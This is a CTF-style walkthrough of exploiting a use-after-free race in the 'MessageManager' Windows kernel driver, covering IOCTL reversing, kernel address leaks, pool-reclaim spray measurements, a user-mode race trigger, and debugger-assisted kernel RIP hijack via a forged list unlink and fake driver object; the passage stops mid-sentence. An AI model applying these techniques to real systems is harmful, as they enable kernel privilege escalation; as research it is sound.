


# MessageManager: from a pool UAF to a debugger-free arbitrary-free

A tour of the **MessageManager** CTF driver on a **live KDNET kernel** (Windows Server 26100),
driven end to end with windbg-mcp. Unlike the [HEVD](hevd-ioctl-walkthrough.md) and
[mountmgr](driver-ioctl-walkthrough.md) tours — which are about *reaching* an IOCTL — this one is
about a **use-after-free in the kernel pool**: measuring candidate reclaims, proving controlled
kernel RIP with a debugger-assisted handoff, and then removing the debugger from the pieces that let
it — first the reclaim, then the trigger itself. There is **no PDB**, so everything is `module+RVA`.

> **The thesis.** The bug is a garden-variety locking mistake. The interesting parts are proving what
> the allocator actually did on Windows 26100, understanding the tiny refcount race exactly enough to
> win it from pure user mode (the free-with-node fires debugger-free and Verifier-free — §8), and
> separating what genuinely needs a kernel debugger from what only looked like it did. A pool walker
> that silently returns "empty" is worse than no walker at all, so this also records the four fixes
> needed before the 26100 measurements could be trusted.

The four kernel-pool tools this walkthrough leans on (`pool_find_tag`, `pool_chunk`, `pool_census`,
`pool_diagnostics`) were built for exactly this target; see the
[README's tool list](../README.md#tools).

## 1. Attach over KDNET

```jsonc
attach_kernel { "connection": "net:port=50000,key=<w.x.y.z>" }   // ask the user for the real string
```

```text
Windows 10 Kernel Version 26100 MP (4 procs) Free x64
Kernel base = 0xfffff806`76800000   PsLoadedModuleList = 0xfffff806`776f4fd0
```

> **Gotcha — the attach *blocks* on an INFINITE wait.** If the target isn't dialed in, the tool
> reports a *timeout* while the engine stays parked and completes the moment the guest connects.
> Don't fire more tools into a parked attach; `session_status` says how long it has waited, and
> `end_session` reclaims it. The target must dial this host:
> `bcdedit /dbgsettings net hostip:<debugger-ip> port:50000 key:<key>` (**colons**, not `=`).

## 2. Reverse the driver with no symbols

`\Driver\MessageManager` ships no PDB, so start from the driver object and read the dispatch table
straight off it:

```jsonc
execute { "command": "!drvobj \\Driver\\MessageManager 2" }
```

```text
[0e] IRP_MJ_DEVICE_CONTROL   fffff806`0c881230
```

Disassembling the dispatch (`uf fffff8060c881230`) shows a plain `sub`/`je` compare chain over
`IoControlCode` (read from `IO_STACK_LOCATION+0x18`), which pins the four handlers. The image base is
`0xfffff8060c880000`, so the RVAs are stable across boots even without symbols:

| IOCTL       | Op       | Handler RVA |
|-------------|----------|-------------|
| `0x222000`  | Create   | `+0x10d4`   |
| `0x222004`  | Delete   | `+0x1000`   |
| `0x222008`  | SetData  | `+0x1560`   |
| `0x22200C`  | Flush    | `+0x1478`   |

`uf`-ing each handler reconstructs the object model. **Create** calls
`ExAllocatePool2(0x40, 0x68, 'Tgsm')` — the `0x40` is `POOL_FLAG_NON_PAGED`, encoded cutely as
`lea ecx,[rdi-28h]` off the `0x68` size — so a **MESSAGE is a 0x68 NonPaged chunk**:

```text
+0x00  RefCount              (init 1)
+0x08  LIST_ENTRY            small/large list linkage
+0x18  Buffer                paged 'Tfub' allocation
+0x20  Length
+0x28  FAST_MUTEX            (Count=+0x28, Event=+0x40)
+0x60  Linked                on-a-list flag
```

A **global handle list** (head at image `+0x30a0`, lock `+0x3060`, id counter `+0x3000`) maps each
returned `id` to its MESSAGE through 0x20-byte `Tdnh` nodes `{id, MESSAGE*, LINKS}`. Messages link
into a **small** or **large** list (split at `Length == 0x200`) by their own `+0x08` LIST_ENTRY.

## 3. The vulnerability: locking, not arithmetic

Single-threaded, the refcounting is balanced. The defect is that the four operations disagree about
which lock guards a MESSAGE:

- **SetData** looks a message up in the handle list and does `lock inc [msg]` — **without** holding
  that message's `+0x28` FAST_MUTEX.
- **Delete** and **Flush** drop the refcount and, when it hits zero,
  `ExFreePoolWithTag(msg, 'Tgsm')` — also without that per-message mutex.

So SetData can `lock inc` a message whose refcount another thread has already driven to zero and is
about to free — a classic revive-after-free — and the cross-list move in SetData unlinks the message
holding only its own mutex, never the *source* list's lock. The payoff is a **premature free of the
0x68 `Tgsm` chunk while a live reference still points at it**.

Under Driver Verifier this is an instant, unambiguous crash. A 6-thread SetData/Flush race
(`mm_client.ps1 -Op Race`) bugchecks on the first run:

```text
BugCheck 50, PAGE_FAULT_IN_NONPAGED_AREA
faulting IP: MessageManager+0x14de   (the Flush list-walk: mov rax,[rcx+8])
FAILURE_BUCKET_ID: AV_VRF
```

> **Gotcha — `!analyze` misnames the module.** `Failure.Exception.IP.Module` came back `mpsdrv`;
> the bugcheck banner and `IP_IN_PAGED_CODE` are trustworthy, the "friendly" attribution is not.

`MessageManager+0x14de` is inside Flush (`+0x1478`), at the `[Blink]=Flink; [Flink+8]=Blink` unlink
of a freed node — which is exactly the write-what-where an exploit wants (more on that in §6).

## 4. Watching the chunk — and why the walker had to be fixed four times

To exploit a UAF you have to *see* the freed chunk and what reclaims it. That is what the pool tools
are for:

```jsonc
pool_find_tag { "tag": "Tgsm" }
```

When only existence matters, add `"stop_after_matches": 1`; that stops a new walk at the first
allocated match and reports `walk.coverage: "match_limit_reached"`. Keep `limit` for the separate
question of how many found rows to render. Omit `stop_after_matches` when the exhaustive count and
byte total matter.

```text
tag `Tgsm`: 1 allocation(s), 0x68 bytes total
ffff8c8f`13a02f90  0x68  SpecialNonPagedNx  Allocated
```

```jsonc
pool_chunk { "address": "ffff8c8f13a02f90" }
```

`pool_chunk` reports the chunk **and its neighbours**, which is what tells you what a reclaim would
land next to — and under Verifier it correctly shows the adjacent **guard page** as an `Unreadable`
neighbour rather than guessing.

Getting these two calls to tell the truth on 26100 took **four** fixes in the underlying walker
(`dbgscope`), each one a place where the OS had moved something and the walk failed *silently*:

1. **VS free-chunk state moved out of `_HEAP_VS_CONTEXT`.** On 26100 that struct is 0x60 bytes and
   carries none of `FreeChunkTree`/`SubsegmentList`/`DelayFreeContext`; they live in a new
   `_HEAP_VS_AFFINITY_SLOT`, reached by a self-relative, ×64-scaled slot-map arithmetic off the
   context. Any walker that reads `_HEAP_VS_CONTEXT.FreeChunkTree` reads garbage.
2. **The page-segment signature dropped its constant.** `_HEAP_PAGE_SEGMENT.Signature` used to be
   `segment ^ context ^ heap_key ^ 0xa2e64ead…`; on 26100 the constant is gone. Every segment
   failed authentication, so **every chunk vanished** — and the walk returned an *empty pool*, not
   an error. (This is the breakage that motivated surfacing walk diagnostics everywhere: "I saw
   nothing" and "there is nothing" must never render the same.)
3. **Verifier special pool was discovered but not decoded.** A driver under `verifier /flags 0x1`
   gets page-per-allocation special pool, whose range descriptors carry `DESCRIPTOR_FLAG_LFH` — so
   the range was misparsed as an LFH subsegment, judged "implausible", and discarded before any
   walking. The chunk above (`SpecialNonPagedNx`) is only visible because that path was fixed to
   decode special pool page-granularly (data at `page + 0x1000 - align_up(size,16)`).
4. **Page-straddling LFH slots.** LFH slots whose data crossed a page boundary were mis-read; the
   fix stopped reporting the straddlers as corruption.

When the walk *is* incomplete, the tools say so rather than pretending — the whole point of the
`complete` flag threaded through `pool_census`/`pool_diagnostics`:

```jsonc
pool_diagnostics { "filter": "13a0" }   // a plain case-insensitive substring, not a pattern
```

> **Method note.** A real walk emits ~18k diagnostics across 100+ categories, so every summary
> truncates and the one line explaining a specific heap is never in the head. `pool_diagnostics`
> with a substring filter found the special-pool cause in **one** call, after three rounds of
> guessing had failed. Build the filter before theorising.

## 5. Defeating ASLR from outside the driver

There is **no read-back IOCTL**, so the exploit cannot leak addresses through the driver. Everything
it needs comes from `NtQuerySystemInformation` (`examples/messagemanager/mm_exploit.c`, `leak` mode) —
**at administrative / high integrity**, which is the integrity level these outputs were captured at:

```text
[leaks]
  ntoskrnl base            : 0xfffff80676800000
  PsInitialSystemProcess   : 0xfffff806777c5ab0   (ntos + 0xFC5AB0)
  MessageManager base      : 0xfffff8060c880000
  this _EPROCESS           : 0xffffe6091811a080
  this _KTHREAD (+0x232 PreviousMode)
  big pool                 : 6420 entries, NonPaged addresses returned
```

- `SystemModuleInformation` → the kernel and driver bases (the driver base matches the one reversed
  in §2 to the byte).
- `SystemExtendedHandleInformation` → this process's `_EPROCESS` and this thread's `_KTHREAD`, found
  by matching a real handle to self against the system-wide handle table.
- `SystemBigPoolInformation` → real NonPaged pool addresses, which the reclaim spray will need.

Each value cross-checks against the debugger: `x nt!PsInitialSystemProcess` prints exactly
`0xfffff806777c5ab0`, and `lm` gives the same driver base — so the leak plumbing is sound before a
single byte of the driver is corrupted.

> **Integrity matters here, and it is a genuine limit.** Re-run as a real non-administrative
> `lowuser`, every one of these classes returns its kernel pointers **zeroed** — `ntoskrnl base`,
> `_EPROCESS`, `_KTHREAD`, and each big-pool VA all come back `0x0`, though the big-pool *count* still
> returns. That is the 24H2/2025 hardening that withholds kernel addresses from medium integrity
> without `SeDebugPrivilege`. So the disclosure step is an **admin capability**; the escalation this
> walkthrough builds is **admin → SYSTEM** unless paired with a separate medium-IL info leak. The
> reclaim primitive (§9) *is* medium-IL — only the address disclosure is not.

## 6. Measure grooming before trusting it

Create asks `ExAllocatePool2` for `0x68` bytes with `POOL_FLAG_NON_PAGED` (`0x40`) and tag `Tgsm`.
On this build `!pool` shows an `0x80` physical LFH block; the structured walker reports `0x70`
usable bytes. That distinction matters: matching the requested length is not proof that two call
sites draw from the same LFH allocation context.

The `rip` harness in `examples/messagemanager/mm_exploit.c` creates the race target on CPU 0, keeps
candidate allocations alive, and lets the pool tools answer the only useful grooming question:
**did this exact address change from `ReusableFree` to attacker-controlled?** The measurements on
Windows Server 26100.32995 were:

| Candidate | Live measurement | Result |
|---|---|---|
| NPFS write-data (`NpFr`) | physical blocks were `0xa0`; payload followed an NPFS header | wrong bucket and offset |
| Pending pipe writes ("IoSB" attempt) | payload lands in an `NpFr` block (`0xb0`, data at `+0x40`), **not** a distinct `0x68` SystemBuffer | wrong bucket and offset; freed slots stayed `ReusableFree` |
| Event objects | requested `0x68` and appeared in mixed `0x80` LFH blocks near `Tgsm` | useful density groom, unreliable reclaim |
| Retained SetData buffers (`Tfub`) | 1024 exact-`0x68` driver copies | target remained free: SetData uses `POOL_FLAG_PAGED` (`0x100`) |
| SetData with KD-patched tag and flags | `Tgsm` plus `POOL_FLAG_NON_PAGED` (`0x40`) | still missed; call-site/subsegment selection remained different |

`pool_census` established the population, `pool_find_tag` found the candidate classes, and
`pool_chunk(refresh=true)` gave the final per-address verdict. The tools do not mutate or groom
pool state; they prevent a plausible-looking spray count from being mistaken for a reclaim.

**Retried in isolation (26100.32995) — and the reclaim can be made natural.** To separate the
reclaim question from the race, the `reclaimprobe` mode (`examples/messagemanager/mm_exploit.c`)
frees a *run* of bare `Tgsm` chunks cleanly — no UAF — captures each freed address from the handle
list, then sprays a NonPaged candidate (everything pinned to CPU 0) and `db`s each slot. Two things
came out of it — a mechanical detail about freeing, and a primitive that reclaims without KD:

- A bare `Create`+`Delete` frees a `Tgsm` chunk cleanly (RefCount `1`→`0`; the `Buffer != NULL`
  guard skips the paged `Tfub` free). A `SetData` first leaves RefCount at **2** — SetData's
  `lock inc` is never released, the same bug that drives the UAF — so a single `Delete` then frees
  *nothing*. A clean free needs the bare path.

The reclaim's difficulty is **allocation context**, not size. The freed `Tgsm` `0x80` slots are
reused live — by system `Even` (Event) objects. `CreateEvent` allocates its `0x68` NonPagedNx block
through the *generic* `ExAllocatePool2` path, the same context the driver's `Create` uses, so Events
land in exactly these subsegments. A reclaim spray therefore has to draw from that same generic
context; a same-size NonPaged spray from a *different* context misses. Four candidates, measured:

- **pending pipe write** (the harness's mislabeled "IoSB"): NPFS routes it to an `NpFr` block
  (`0xb0`, payload at `+0x40`) — wrong bucket, wrong offset. Miss.
- **`FSCTL_PIPE_TRANSCEIVE`** (`0x11C017`) is `METHOD_NEITHER` — no SystemBuffer copy at all.
- **AFD socket context** (`IOCTL_AFD_SET_CONTEXT`): a genuine attacker-controlled NonPaged
  verbatim spray from `+0x00` (500/500 held), but `AfdC` is a **separate context** — its marker
  is absent from the whole `Tgsm` region and 0/16 slots were reclaimed. Same size, wrong context.
- **pending `FSCTL_PIPE_WAIT`** (tag `IoSB`): **this reclaims.** Its input SystemBuffer is an
  I/O-manager *buffered* allocation on the generic context, so it lands in the freed slots. Two
  plumbing points make it work: the FSCTL must go through `NtFsControlFile`
  (`IRP_MJ_FILE_SYSTEM_CONTROL`; `DeviceIoControl` sends device-control and NPFS answers
  `ERROR_INVALID_FUNCTION`), and the NPFS root is opened async + as a directory so the wait parks
  with `STATUS_PENDING` and keeps the buffer live.

Against a run of 16 freshly-freed `Tgsm` slots, a 500-buffer `FSCTL_PIPE_WAIT` spray reclaimed
**8 of them** — each formerly-`Tgsm` chunk becomes tag `IoSB` holding `MMWAIT!!` at `+0x00`, with
**no debugger assist**:

```text
ffff...5e55f500  size: 80  (Free) *IoSB          // !pool misreads 26100 segment-heap LFH state
ffff...5e55f510  4d 4d 57 41 49 54 21 21 58 00..  // "MMWAIT!!" then NameLength 0x58
```

That is the natural reclaim the KD-forced allocation was standing in for: the reclaim step of the
chain no longer needs the debugger. The caveat is offset control. `FSCTL_PIPE_WAIT`'s buffer is a
`FILE_PIPE_WAIT_FOR_BUFFER`: `+0x00` Timeout (free — the `RefCount`), `+0x08` `NameLength` (a
validated length, not a pointer), `+0x10..` the pipe name. So it controls `+0x00` and `+0x10`
onward — reaching **Buffer `+0x18`, the arbitrary-free primitive** — but **not** Flink `+0x08` as a
kernel pointer, which the §9 *unlink* RIP specifically writes. Removing the assist from the unlink
variant needs an offset-`0` primitive that also leaves `+0x08` free — and, as §9 works out, that is
necessary but not sufficient: the unlink's reciprocal store then demands a `Flink` whose `+0x08` is
*writable*, which a code pointer never is. The data-only **arbitrary-free** route
(`ExFreePoolWithTag(msg+0x18)`, §3/§6) is now reachable with a fully natural reclaim, and a
double-free → type-confusion would sidestep `+0x08` entirely.

The [SSTIC 2020 pool-overflow work](https://www.sstic.org/2020/presentation/pool_overflow_exploitation_since_windows_10_19h1/)
is applicable to the allocator model: LFH subsegments, affinity slots, and free-bitmap randomisation
explain why density and CPU placement matter. Its aligned-chunk-confusion overflow is not this
driver's UAF primitive, though, and the live address checks above disprove a size-only translation
of that technique. For short race windows, the reschedule/TLB-pressure ideas are closer to
[Project Zero's tiny-race work](https://googleprojectzero.blogspot.com/2022/03/racing-against-clock-hitting-tiny.html)
and [ExpRace](https://www.usenix.org/system/files/sec21-lee-yoochan.pdf); here KD makes the final
experiment deterministic instead of pretending the scheduler trick is reliable.

## 7. Deterministic UAF and debugger-assisted handoff

The reliable race uses one target MESSAGE and four CPUs. `run_to_address` stops only when the
register holding the candidate equals the saved target; an assertion aborts and restores every
temporary byte if a different list node hits first.

The flush worker runs on CPU 0. The setter and its targeted reschedule storm share CPU 1, the TLB
storm runs on CPU 2, and CPU 3 is reserved for the later concurrent CREATE trigger.

Before opening the driver, the harness verifies that the calling thread's primary processor group
and the process, system, and thread affinity masks all expose CPUs 0–3. Each race, window-extension,
and CREATE-trigger worker must then be pinned successfully before its start gate is released; an
affinity-restricted launch fails instead of silently running the experiment with co-scheduled threads.

1. Stop the SetData caller at the unlink (`MessageManager+0x16e4`), set the target refcount to 3,
   and replace the first four unlink bytes with `jmp $`.
2. Let Flush reach `+0x1502`. Its `lock xadd -1` changes the same object from 3 to 2.
3. Restore the unlink and let SetData reach `+0x1706`; its final decrement leaves 1.
4. Let Flush reach `+0x151b`, immediately before it frees that exact object; continuing toward the
   first post-free allocation performs the free. In the successful run the target was
   `ffff9a04'94a74010`; `!pool` showed the physical `0x80` `Tgsm` block.

Natural grooming still did not return that address. To validate the downstream UAF and control-flow
chain independently of allocator luck, KD stopped after the first post-free `ExAllocatePool2` at
`SetData+0x1668`. The real return was `ffff9a04'94895f10`; KD deliberately changed `RAX` to the
freed target before the driver stored the pointer and copied the `0x68`-byte fake MESSAGE.

That is a **debugger-assisted handoff, not a standalone reclaim**. It leaks the real allocation and
does not mark the target allocated in LFH metadata, so the VM must be rebooted after the experiment.
Keeping this boundary explicit is important: the handoff proves the object layout, stale lookup,
unlink primitive, and final indirect call; it does not claim a production-quality pool spray.

## 8. Firing the same UAF without a debugger

§7's handoff proves the object layout and the primitives, but it drives the free with KD: it stops
the SetData caller at the unlink, walks the refcount to 1 by hand, and steps Flush into the free.
That leaves one honest gap — *does the race actually win from user mode?* On this build it does, and
reliably.

The blocker was never the reclaim (§6 made that natural) and never the arithmetic. Reversing SetData
and Flush to the instruction shows the real bug and the real lever:

- **Flush holds the list lock across its whole walk** (`+0x14cd` acquire → `+0x1531` release), so no
  amount of Flush-vs-Flush hammering yields a double free. The only cross-decrement is Flush vs
  SetData's cross-move.
- SetData's cross-move does its **unlink from the source list holding only the per-message mutex, not
  the list lock** (`+0x16e4`), and it decides inc-vs-no-inc from a **TOCTOU read of the `Linked`
  flag** (`+0x16d5`). When a concurrent Flush clears `Linked` and decrements in that window, SetData
  relinks to the target list **without** the compensating inc — the message ends on a list at
  refcount one-too-low, and the next Flush frees it **with its handle node still alive**. That is the
  exact free-with-node the arbitrary-free needs.
- The window is a handful of instructions, so the win is **statistical**. Widening SetData's `memcpy`
  is a dead end — the driver rejects `Length > 0x2FF4`, so a large buffer silently no-ops the call.
  The lever is **sustained hammering**: every earlier harness performed one cross-move per message
  and then moved on, so the race got tens to low hundreds of isolated attempts. What it needs is a
  loop that keeps cross-moving the *same* messages against a Flush that keeps walking the list.

The `drift` mode (`examples/messagemanager/mm_exploit.c`) seeds a small set of messages and loops
`SetData(→large)/SetData(→small)` cross-moves on them while `Flush(small)` and `Flush(large)`
hammer both lists — a pure user-mode race, all four CPUs. **Live on 26100.32995 with Driver Verifier
off and no debugger attached, it bugchecks the guest within about a second:**

```text
KERNEL_MODE_HEAP_CORRUPTION (13a)
nt!RtlpHpVsContextFree → nt!ExFreePoolWithTag
MessageManager+0x1654        ; SetData's ExFreePoolWithTag(msg+0x18,'Tfub')
PROCESS_NAME: mm_exploit.exe
```

That is the driver's own arbitrary-free path executing on a use-after-free MESSAGE, driven entirely
from user mode — three independent minidumps, same signature. The guest auto-reboots and writes the
dump, so reading it *is* the debugger-free proof: nothing was attached when it fired. So the last KD
dependency §7 carried — *the trigger* — is gone.

**How often does it win? Measured rather than estimated: 28 consecutive runs, 28 bugchecks.** Two
configurations, both saturated — the default (64 messages, 20-second window) at 16/16, and the
smallest the harness accepts, `drift 1 1 1`, a **single** message raced for **one second**, at 12/12.
Time from process launch to bugcheck was 0.61–0.63 s in nearly every run and *identical* for one
message and sixty-four, which means it is measuring process startup, not the race; once the threads
are running the win lands within milliseconds. Two things follow. First, "volume" is about sustained
attempts, not a large target set: one message hammered for one second is enough. Second, a saturated
rate can show that a change did not regress the race, but it can never show that two variants differ
— for that the window would have to drop below a second or the loop be throttled, and the harness
exposes neither.

**What is still debugger-assisted is only the *cleanliness* of the fire, and that turns out to be a
genuine constraint, not a budget shortfall.** A weaponized arbitrary free wants the freed pointer to
be an attacker-*chosen* value (plant `0x4242…` into the freed slot via the §6 `IoSB` reclaim, then
Delete the stale node → `ExFreePoolWithTag(0x4242…)`). But the only source of the stale handle is
Flush + the missing-inc, and the missing-inc is produced by the **lockless unlink that tears the
list** — so Flush AVs walking the corrupted list, or a re-touch double-frees, and the heap is
corrupted *faster* than any controlled reclaim-then-Delete can run. Across ~10 crash/reboot cycles
the same race fired from four distinct debugger-free sites — SetData's free (`+0x1654`), SetData's
`ExAllocatePool2` for a new `Tfub` on a corrupted `Tfub` LFH (`+0x1668`), Flush's unlink write
`[Blink]=Flink` (`+0x14e9`, a `0x3B` AV — the **write-what-where** primitive firing on garbage), and
Flush's list-walk read `mov rax,[rcx+8]` (`+0x14de`, the `0x50`/`AV_VRF` §3 first met under Driver
Verifier's special pool) — but never the clean `0x4242` ordering. That ordering is exactly what KD
buys in §9: precise control over *when* the free happens relative to the reclaim. Harness modes
`drift` (winnability proof), `driftfire` (safe single-pass toward a controlled Delete), and
`driftarb` (continuous race + planted `0x4242` reclaim) are all in `mm_exploit.c`.

A fifth presentation turned up during the 28-run batch, and it is the one worth knowing before you
triage a dump from this race:

```text
KERNEL_MODE_HEAP_CORRUPTION (13a)   Arg1 = 0x11        ; not the usual 0x8
nt!RtlpHpLfhSubsegmentDelayFreeListProcess
nt!RtlpHpLfhOwnerCompact → nt!ExpHpCompactionRoutine → nt!ExpWorkerThread
PROCESS_NAME: System                ; mm_exploit.exe had already exited
```

This is LFH *maintenance* tripping over the corrupt subsegment asynchronously, on a system worker
thread, after the harness process is gone — same root cause, later detection point. The trap is that
**`MessageManager` appears nowhere in the stack**, so the obvious reading is "unrelated crash, some
other bug". It is not: a corrupted subsegment outlives the process that corrupted it, and the heap
gets to it on its own schedule.

The boundary has moved twice now: from "reclaim needs KD" (§6 removed it) to "the trigger needs KD"
to **"the trigger and both primitives fire debugger-free; only the clean *chosen-target ordering*
remains KD-assisted."**

## 9. Direct RIP control without `PreviousMode`

The first post-UAF attempt used the usual data-only bootstrap: set fake `Flink` to a writable kernel
anchor ending in `0x0800`, set fake `Blink` to `KTHREAD.PreviousMode`, and let the unlink's second
store make the low byte zero. Windows 26100.32995 immediately bugchecked with `0x1F9`,
`PREVIOUS_MODE_MISMATCH`, on return to user mode. The installed 26100 WDK names that stop code in
`bugcodes.h`; this route is mitigated on the tested build and is not a SYSTEM primitive here.

RIP control can instead be proved before the vulnerable syscall returns. The unlink at
`MessageManager+0x16e4` is:

```text
+0x16ef  mov qword ptr [rax],rcx       ; [Blink]   = Flink
+0x16f2  mov qword ptr [rcx+8],rax     ; [Flink+8] = Blink
```

At the synchronization `IRP_MJ_CREATE`, KD derives
`&DriverObject->MajorFunction[IRP_MJ_CREATE]` from `DeviceObject` and rewrites the fake:

```text
fake.Flink = nt!DbgBreakPointWithStatus
fake.Blink = &DriverObject->MajorFunction[IRP_MJ_CREATE]
```

The first unlink store therefore installs a kCFG-valid kernel export in the dispatch slot. The
second store is not a driver quirk: the pair is a textbook `RemoveEntryList` — `Blink->Flink = Flink`
then `Flink->Blink = Blink` — and the driver has no idea either pointer is forged. It targets
read-only kernel code only because *this attack* chose a code address for `Flink`, which makes the
store `[nt!DbgBreakPointWithStatus+8] = Blink`. So KD temporarily changes `+0x16f2`
to `jmp $`. A second harness thread, pinned to CPU 3, continuously opens `\\.\MessageDevice`; the
stale SetData caller remains on CPU 0. Once the dispatch pointer changes, the trigger thread reaches
the selected target through the normal I/O manager indirect call.

The captured proof was:

```text
rip=fffff803`aa6fa240  nt!DbgBreakPointWithStatus
THREAD ffff9a04`93426080  Cid 0da0.0a2c  RUNNING on processor 3
Owning Process ffff9a04`93d4b440  Image: mm_exploit.exe

nt!DbgBreakPointWithStatus
nt!IopfCallDriver+0x5b
nt!IofCallDriver+0x13
nt!IopParseDevice+0x73b
nt!NtCreateFile+0x79

MM_PROOF_PROCESS_OK
MM_PROOF_CONCURRENT_THREAD_OK
```

The [curated MCP proof record](../examples/messagemanager/rip-proof-transcript.txt) identifies the
live binary and distinguishes transcribed output from canonicalized commands and post-run annotations.
A reconstructed [asciicast v2 recording](../examples/messagemanager/rip-proof.cast) replays the same
captured events; its timing is illustrative because live recording was not enabled for the original run.



*(Reconstructed terminal session — source:
[`rip-proof.cast`](../examples/messagemanager/rip-proof.cast), `asciinema play`.)*

The stale caller was a different thread (`ffff9a04'94017080`) in the same process, stopped at
`MessageManager+0x1560` on CPU 0. After capture, KD restored the CREATE slot to
`MessageManager+0x1210`, changed the reciprocal store to NOPs so the parked caller could pass it,
redirected the trigger to the original CREATE handler, and finally restored the original
`48 89 41 08` bytes. A final read verified both the dispatch pointer and instruction bytes before a
clean reboot discarded the intentionally corrupted free chunk.

This establishes controlled kernel RIP on the challenge build. The RIP *mechanism* above is
debugger-assisted, but the pieces it depended on have fallen away one at a time: §6 makes the
**reclaim** natural (a pending `FSCTL_PIPE_WAIT`/`IoSB` spray reclaims freed `Tgsm` slots 8/16,
attacker-controlled from `+0x00`, no debugger), and §8 makes the **trigger** natural (the high-volume
`drift` race fires `ExFreePoolWithTag` on a use-after-free MESSAGE from user mode, three dumps, no
debugger and no Verifier). What this section still owes the debugger is **three** things, not two:

1. **The write-what.** `Flink` at `+0x08` has to be a kernel pointer, and §6's `FSCTL_PIPE_WAIT`
   reclaim pins that qword to `NameLength` (a validated length) followed by `TimeoutSpecified` and
   the first name `WCHAR`. *(Retired below by a different reclaim primitive.)*
2. **The reciprocal store.** `Flink->Blink = Blink` is unconditional, so `Flink+0x08` has to be
   writable. KD's `jmp $` is what makes that true here.
3. **The ordering** a clean chosen-target arbitrary free needs (§8).

The second is the one that decides whether this route can *ever* be debugger-free, because **as
written above** it stands in direct opposition to RIP itself. A value the dispatch slot will accept
has to be a kCFG-valid function entry; function entries live in read-only `.text`; so `Flink+0x08` is
unwritable **precisely because** `Flink` is executable. Put the code pointer in `Flink` and the unlink
can hand over RIP or survive its own second store, not both.

That opposition is an artifact of *where the code pointer sits*, though, and it dissolves one
indirection later. `IopfCallDriver` reloads the driver object from the device object on every
dispatch, and validates nothing in between:

```text
nt!IopfCallDriver+0x4a:
  mov  rcx,qword ptr [rcx+8]         ; rcx = DeviceObject->DriverObject
  mov  rax,qword ptr [rcx+r9*8+70h]  ; rax = DriverObject->MajorFunction[major]
  call nt!KscpCfgDispatchUserCallTargetEsSmep
```

No type tag, no size field, no signature — and the kCFG guard checks the *call target*, not the object
it was loaded out of. So aim `Blink` at `DeviceObject->DriverObject` (`_DEVICE_OBJECT+0x08`) and
`Flink` at a **forged `_DRIVER_OBJECT`**, and the first store redirects every later dispatch through
attacker data. The reciprocal store then writes `Blink` into the forged object's own `+0x08` —
`_DRIVER_OBJECT.DeviceObject`, which this path never reads — so it is not *survived*, it is
**harmless**, and it drops the target's address into a buffer we own as a bonus leak. The code pointer
moves out of `Flink` and into the forged `MajorFunction[IRP_MJ_CREATE]` — index 0, so at
`DRIVER_OBJECT+0x70` (`MajorFunction` base; a `CreateFile` on the device dispatches `IRP_MJ_CREATE`) —
where it is ordinary sprayed data that still satisfies kCFG because it is still a real export. The
forged object therefore has to run to at least `0x78` bytes, which rules out the reclaimed `0x68`
chunk: it is a separate allocation whose address is leaked (`SystemBigPoolInformation`, §5), and only
the *pointer* to it has to fit through `+0x08`.

Which is where (1) still bites — and it is now the only thing in the way. `Flink` has to be that
address, and the `IoSB` buffer spells that qword `NameLength | TimeoutSpecified | pad | Name[0]`. The
top 16 bits are `Name[0]`, and `0xFFFF` is an acceptable `WCHAR`; the two bytes below it are copied
verbatim and pick any of 65536 4 GiB-aligned boundaries. But the low 32 bits are `NameLength`, and
with LFH in play the binding constraint is the *block*, not an exact size: the reclaiming buffer only
has to round into the same block as the freed `MESSAGE`. That block is `0x80` — a `0x10` pool header
over `0x70` of usable bytes — and the buffer is `0x0e + NameLength`, so the real cap is
`NameLength <= 0x62`; the live spray in §6 used `0x58` and left headroom. Sizing the *hole* up is what
would actually widen this, and it is not available here: the hole is a `MESSAGE`, whose `0x68` the
